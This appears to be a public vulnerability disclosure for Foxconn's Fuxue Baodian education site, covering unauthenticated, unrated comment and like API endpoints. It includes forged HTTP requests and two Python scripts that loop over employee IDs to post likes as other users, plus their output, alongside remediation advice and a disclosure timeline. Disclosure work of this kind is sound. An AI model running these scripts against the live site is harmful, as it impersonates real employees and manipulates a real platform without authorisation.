



## Summary

The vulnerability in the Fuxue Baodian website (**iedu.foxconn.com**) involves missing authentication and improper authorization in API endpoints for commenting (`/http/v2/news/{id}/comment`) and liking (`/http/v2/news/{id}/likes and /http/v2/news/{news_id}/{comment_id}/likes`). Attackers can forge employee IDs in the `access_token` parameter and `username` field without requiring session cookies, bypassing authentication. This allows identity spoofing to post comments or likes on behalf of other users. Additionally, the lack of rate limiting enables high-frequency spamming of comments and likes, potentially automating mass actions via scripts.


## Affected Product

- **Vendor:** Foxconn
- **Product:** Fuxue Baodian
- **Version:** Current as of 2025-11-20
- **Component:** Commenting and Liking Module
- **Domain:** iedu.foxconn.com

**Note:** The vulnerability was confirmed in the live web application as of 2025-11-20. Since the application does not expose a version string, a specific version number could not be determined.


## Impact

* **Identity Impersonation and Misuse:** Attackers can forge employee identities to post unauthorized comments or likes, enabling the spread of misinformation, user harassment, or reputational damage on the company's education platform.
* **Spamming and Content Overload:** The lack of rate limiting allows high-volume spamming, which can flood comment sections or artificially inflate like counts, leading to degraded user experience and eroded trust in the system.


## CVSS v3.1 Score

**Vector:** `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:H/A:N`

**Base Score:** **7.5 (High)**

- AV (Attack Vector): Network 
- AC (Attack Complexity): Low
- PR (Privileges Required): None
- UI (User Interaction): None
- S (Scope): Unchanged
- C (Confidentiality): Low
- I (Integrity): High
- A (Availability): None


## Reproduction Steps

### Commenting Module

Log in to the Fuxue Baodian website, then navigate to the course page with comment functionality. Here, we take the course page: `https://iedu.foxconn.com/public/play/play?courseId=57880&companyId=1` as an example. If the user is not logged in, the frontend page cannot use the comment function, as shown in the following image:



After the user logs in, the page is as shown in the following image:



For testing purposes, here we make a simple comment and use BurpSuite to intercept its API request. The API request is as shown below:

```http
POST /http/v2/news/1ok6BO2s0QE/comment?access_token=F1245363 HTTP/2
Host: iedu.foxconn.com
Cookie: deviceid=W4cd32305860b4836869c8bcd593c1c5a; zh_choose=t; fxbdLocal=zh; JSESSIONID=31DB779C9642550E4F790E31F643CA05
Content-Length: 43
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not_A Brand";v="99", "Chromium";v="142"
Sec-Ch-Ua-Mobile: ?0
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: */*
Content-Type: application/json;charset=UTF-8
Origin: https://iedu.foxconn.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://iedu.foxconn.com/public/play/play?courseId=57880&companyId=1
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"username":"F1245363","content":"Testing"}
```

Release the above request, and the server-side response result is as shown below:

```http
HTTP/2 200 OK
Content-Type: text/plain;charset=UTF-8
Content-Length: 41
X-Frame-Options: ALLOW-FROM https://iedu.foxconn.com/
Expires: Wed, 26 Nov 2025 15:15:59 GMT
Cache-Control: max-age=0, no-cache, no-store
Pragma: no-cache
Date: Wed, 26 Nov 2025 15:15:59 GMT
Strict-Transport-Security: max-age=31536000 ; includeSubDomains ; preload

{"id":"1pZHjNseKo8","msg":"评论成功"}
```

The vulnerability lies in the fact that this API request does not require authentication, has no rate limiting on calls, and allows forging the value of the `access_token` (employee ID) in the request parameters as well as the value of `username` (employee ID) in the request body. The constructed new request is as shown below:

* Delete the `Cookie` from the original request headers (user's identity credential)
* Change the value of the `access_token` parameter in the original request parameters from `F1245363` to `F1245311` (victim's employee ID)
* Change the value of the `username` parameter in the original request body from `F1245363` to `F1245311` (victim's employee ID)

```http
POST /http/v2/news/1ok6BO2s0QE/comment?access_token=F1245311 HTTP/2
Host: iedu.foxconn.com
Content-Length: 47
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not_A Brand";v="99", "Chromium";v="142"
Sec-Ch-Ua-Mobile: ?0
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: */*
Content-Type: application/json;charset=UTF-8
Origin: https://iedu.foxconn.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://iedu.foxconn.com/public/play/play?courseId=57880&companyId=1
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"username":"F1245311","content":"New Testing"}
```

In BurpSuite, **continuously call the above request at high frequency 20 times**, and it is found that the backend response results all contain `"msg":"评论成功"`, indicating that comments were successfully posted using the forged identity! The high-risk vulnerability point is that this vulnerability can be exploited to maliciously spam comments!!! The comment page is as shown in the following image:



### Liking Module

It is also possible to forge identities to maliciously spam likes, and the API request still does not need to pass Cookies (bypassing authentication) !

Here, we take spamming likes for a news article (`https://iedu.foxconn.com/public/news/newsdetail?id=1q0lZdj0z8Q`) as an example. The Python automation script for forging identities to maliciously spam likes is as shown below:

```python
import requests

url = "https://iedu.foxconn.com/http/v2/news/1q0lZdj0z8Q/likes"

headers = {
    "Sec-Ch-Ua-Platform": '"macOS"',
    "X-Requested-With": "XMLHttpRequest",
    "Accept-Language": "en-US,en;q=0.9",
    "Accept": "*/*",
    "Sec-Ch-Ua": '"Not_A Brand";v="99", "Chromium";v="142"',
    "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36",
    "Sec-Ch-Ua-Mobile": "?0",
    "Origin": "https://iedu.foxconn.com",
    "Sec-Fetch-Site": "same-origin",
    "Sec-Fetch-Mode": "cors",
    "Sec-Fetch-Dest": "empty",
    "Referer": "https://iedu.foxconn.com/public/play/play?courseId=57880&companyId=1",
    "Accept-Encoding": "gzip, deflate, br",
    "Priority": "u=1, i"
}

for i in range(1245100, 1245199): # Note: Each employee ID can only like once
    token = f"F{i}"
    params = {"access_token": token}
    r = requests.post(url, headers=headers, params=params, timeout=5)
    if '"likes_status":true' in r.text:
        print(f"Employee ID: {token}, Successful like: {r.text}")
```

The script execution results are as shown below:

```
......
Employee ID: F1245179, Successful like: {"source_id":"1q0lZdj0z8Q","likes_status":true}
Employee ID: F1245180, Successful like: {"source_id":"1q0lZdj0z8Q","likes_status":true}
Employee ID: F1245181, Successful like: {"source_id":"1q0lZdj0z8Q","likes_status":true}
Employee ID: F1245182, Successful like: {"source_id":"1q0lZdj0z8Q","likes_status":true}
Employee ID: F1245183, Successful like: {"source_id":"1q0lZdj0z8Q","likes_status":true}
Employee ID: F1245184, Successful like: {"source_id":"1q0lZdj0z8Q","likes_status":true}
Employee ID: F1245185, Successful like: {"source_id":"1q0lZdj0z8Q","likes_status":true}
Employee ID: F1245186, Successful like: {"source_id":"1q0lZdj0z8Q","likes_status":true}
Employee ID: F1245187, Successful like: {"source_id":"1q0lZdj0z8Q","likes_status":true}
Employee ID: F1245188, Successful like: {"source_id":"1q0lZdj0z8Q","likes_status":true}
Employee ID: F1245189, Successful like: {"source_id":"1q0lZdj0z8Q","likes_status":true}
Employee ID: F1245190, Successful like: {"source_id":"1q0lZdj0z8Q","likes_status":true}
Employee ID: F1245191, Successful like: {"source_id":"1q0lZdj0z8Q","likes_status":true}
Employee ID: F1245192, Successful like: {"source_id":"1q0lZdj0z8Q","likes_status":true}
Employee ID: F1245193, Successful like: {"source_id":"1q0lZdj0z8Q","likes_status":true}
Employee ID: F1245194, Successful like: {"source_id":"1q0lZdj0z8Q","likes_status":true}
Employee ID: F1245195, Successful like: {"source_id":"1q0lZdj0z8Q","likes_status":true}
Employee ID: F1245196, Successful like: {"source_id":"1q0lZdj0z8Q","likes_status":true}
Employee ID: F1245197, Successful like: {"source_id":"1q0lZdj0z8Q","likes_status":true}
Employee ID: F1245198, Successful like: {"source_id":"1q0lZdj0z8Q","likes_status":true}
```

Refresh the page (`https://iedu.foxconn.com/public/news/newsdetail?id=1q0lZdj0z8Q`), and it is found that the article has been successfully liked 100 times, as shown in the following image:


Here, we take spamming likes for a user comment as an example. The Python automation script for forging identities to maliciously spam likes is as shown below:

```python
import requests

url = "https://iedu.foxconn.com/http/v2/news/1q0lZdj0z8Q/1q0qJZ3zVTi/likes"

headers = {
    "Sec-Ch-Ua-Platform": '"macOS"',
    "X-Requested-With": "XMLHttpRequest",
    "Accept-Language": "en-US,en;q=0.9",
    "Accept": "*/*",
    "Sec-Ch-Ua": '"Not_A Brand";v="99", "Chromium";v="142"',
    "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36",
    "Sec-Ch-Ua-Mobile": "?0",
    "Origin": "https://iedu.foxconn.com",
    "Sec-Fetch-Site": "same-origin",
    "Sec-Fetch-Mode": "cors",
    "Sec-Fetch-Dest": "empty",
    "Referer": "https://iedu.foxconn.com/public/play/play?courseId=57880&companyId=1",
    "Accept-Encoding": "gzip, deflate, br",
    "Priority": "u=1, i"
}

for i in range(1245100, 1245199): # Note: Each employee ID can only like once
    token = f"F{i}"
    params = {"access_token": token}
    r = requests.post(url, headers=headers, params=params, timeout=5)
    if '"likes_status":true' in r.text:
        print(f"Employee ID: {token}, Successful like: {r.text}")
```

The script execution results are as shown below:

```
······
Employee ID: F1245174, Successful like: {"source_id":"1q0qJZ3zVTi","likes_status":true}
Employee ID: F1245175, Successful like: {"source_id":"1q0qJZ3zVTi","likes_status":true}
Employee ID: F1245176, Successful like: {"source_id":"1q0qJZ3zVTi","likes_status":true}
Employee ID: F1245177, Successful like: {"source_id":"1q0qJZ3zVTi","likes_status":true}
Employee ID: F1245178, Successful like: {"source_id":"1q0qJZ3zVTi","likes_status":true}
Employee ID: F1245179, Successful like: {"source_id":"1q0qJZ3zVTi","likes_status":true}
Employee ID: F1245180, Successful like: {"source_id":"1q0qJZ3zVTi","likes_status":true}
Employee ID: F1245181, Successful like: {"source_id":"1q0qJZ3zVTi","likes_status":true}
Employee ID: F1245182, Successful like: {"source_id":"1q0qJZ3zVTi","likes_status":true}
Employee ID: F1245183, Successful like: {"source_id":"1q0qJZ3zVTi","likes_status":true}
Employee ID: F1245184, Successful like: {"source_id":"1q0qJZ3zVTi","likes_status":true}
Employee ID: F1245185, Successful like: {"source_id":"1q0qJZ3zVTi","likes_status":true}
Employee ID: F1245186, Successful like: {"source_id":"1q0qJZ3zVTi","likes_status":true}
Employee ID: F1245187, Successful like: {"source_id":"1q0qJZ3zVTi","likes_status":true}
Employee ID: F1245188, Successful like: {"source_id":"1q0qJZ3zVTi","likes_status":true}
Employee ID: F1245189, Successful like: {"source_id":"1q0qJZ3zVTi","likes_status":true}
Employee ID: F1245190, Successful like: {"source_id":"1q0qJZ3zVTi","likes_status":true}
Employee ID: F1245191, Successful like: {"source_id":"1q0qJZ3zVTi","likes_status":true}
Employee ID: F1245192, Successful like: {"source_id":"1q0qJZ3zVTi","likes_status":true}
Employee ID: F1245193, Successful like: {"source_id":"1q0qJZ3zVTi","likes_status":true}
Employee ID: F1245194, Successful like: {"source_id":"1q0qJZ3zVTi","likes_status":true}
Employee ID: F1245195, Successful like: {"source_id":"1q0qJZ3zVTi","likes_status":true}
Employee ID: F1245196, Successful like: {"source_id":"1q0qJZ3zVTi","likes_status":true}
Employee ID: F1245197, Successful like: {"source_id":"1q0qJZ3zVTi","likes_status":true}
Employee ID: F1245198, Successful like: {"source_id":"1q0qJZ3zVTi","likes_status":true}
```

Refresh the page (`https://iedu.foxconn.com/public/news/newsdetail?id=1q0lZdj0z8Q`), and it is found that a certain user's comment has been successfully liked 99 times, as shown in the following image:


## Remediation

* **Enforce Server-Side Authentication:** Validate the `access_token` against the authenticated session (e.g., via `JSESSIONID` cookie). Do not accept client-provided `tokens` or `usernames` without verifying they match the logged-in user's identity from a secure session store.
* **Implement Proper Authorization:** Use role-based access control (`RBAC`) to ensure only authenticated users can perform actions like commenting or liking. Derive user details (e.g., `username`) from server-side session data rather than request parameters.
* **Add Rate Limiting:** Apply limits on API calls per IP, user, or endpoint to prevent spamming. For example, restrict comments/likes to 5-10 per minute per user.


## Timeline
- **2025-11-20:** Vulnerability identified and initial proof-of-concept (PoC) verified.

- **2025-11-28:** Detailed vulnerability report submitted to the vendor for remediation. No acknowledgment or remediation confirmation received as of 2026-01-14.

- **2026-01-14:** Decision made to proceed with public disclosure following the expiration of a reasonable grace period.


## CWE References

* [CWE-306: Missing Authentication for Critical Function](https://cwe.mitre.org/data/definitions/306.html)
* [CWE-287: Improper Authentication](https://cwe.mitre.org/data/definitions/287.html)